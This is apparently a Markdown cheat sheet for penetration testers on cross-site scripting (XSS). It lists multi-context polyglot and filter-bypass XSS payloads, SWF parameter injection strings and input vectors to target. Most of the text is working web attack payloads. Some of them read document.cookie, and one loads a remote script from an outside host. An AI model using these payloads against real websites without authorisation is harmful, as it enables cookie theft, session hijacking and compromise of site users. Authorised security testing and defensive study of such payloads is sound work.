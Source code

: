 # XSS

Core Idea: Does the page functionality display something to the users?

For time sensitive testing the 80/20 rule applies. Many testers use Polyglot payloads. You probably have too!

## Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

```Javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

## Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

```Javascript
 ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
￼￼```

## Multi-context polyglot payload (Mathias Karlsson)

```Javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

## ￼Other XSS Observations

Input Vectors:

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

## SWF Parameter XSS

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)

Common Injection Strings:￼

```Javascript
\%22})))}catch(e){alert(document.domain);}//
```


```Javascript
"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
```


```Javascript
"a")(({type:"ready"}));}catch(e){alert(1)}//
```

## Different xss payloads

```Javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">

<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
```
